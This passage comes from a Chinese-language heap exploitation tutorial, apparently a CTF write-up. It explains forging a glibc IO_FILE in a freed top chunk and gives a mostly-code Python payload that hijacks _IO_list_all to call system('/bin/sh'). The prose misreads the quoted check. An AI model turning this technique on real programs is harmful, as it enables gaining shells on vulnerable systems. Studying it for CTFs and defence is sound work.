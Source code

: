 

### 伪造IO_FILE

上面就实现了修改main_arena + 0x58 中 fake IO_FILE的`_chain`指向我们的old top chunk,那么就在old top chunk伪造IO_FILE,在伪造的时候必须要得通过检查

```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base) 
           || (_IO_vtable_offset (fp) == 0
               && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                                    > fp->_wide_data->_IO_write_base))
           )
          && _IO_OVERFLOW (fp, EOF) == EOF)
        result = EOF;
```

则fp->`_mode` <= 0 且fp->`_IO_write_ptr` > fp->`_IO_write_base` 且`_IO_vtable_offset` (fp) == 0,这样才能执行`_IO_OVERFLOW (fp, EOF) == EOF)`

那么利用就可以这样写

```python
# fake file
	f = '/bin/sh\x00' # flag overflow arg -> system('/bin/sh')
	f += p64(0x61)    # _IO_read_ptr small bin size
	#  unsoted bin attack
	f += p64(0) # _IO_read_end)
	f += p64(_IO_list_all - 0x10)  # _IO_read_base

	#bypass check
	# 使fp->_IO_write_base < fp->_IO_write_ptr绕过检查
	f += p64(0) # _IO_write_base 
	f += p64(1) # _IO_write_ptr

	f += p64(0) # _IO_write_end
	f += p64(0) # _IO_buf_base
	f += p64(0) # _IO_buf_end
	f += p64(0) # _IO_save_base
	f += p64(0) # _IO_backup_base
	f += p64(0) # _IO_save_end
	f += p64(0) # *_markers
	f += p64(0) # *_chain

	f += p32(0) # _fileno
	f += p32(0) # _flags2

	f += p64(1)  # _old_offset

	f += p16(2) # ushort _cur_colum;
	f += p8(3)  # char _vtable_offset
	f += p8(4)  # char _shrotbuf[1]
	f += p32(0) # null for alignment

	f += p64(0) # _offset
	f += p64(6) # _codecvt
	f += p64(0) # _wide_data
	f += p64(0) # _freeres_list
	f += p64(0) # _freeres_buf

	f += p64(0) # __pad5
	f += p32(0) # _mode 为了绕过检查,fp->mode <=0 ((addr + 0xc8) <= 0)
	f += p32(0) # _unused2
    
```
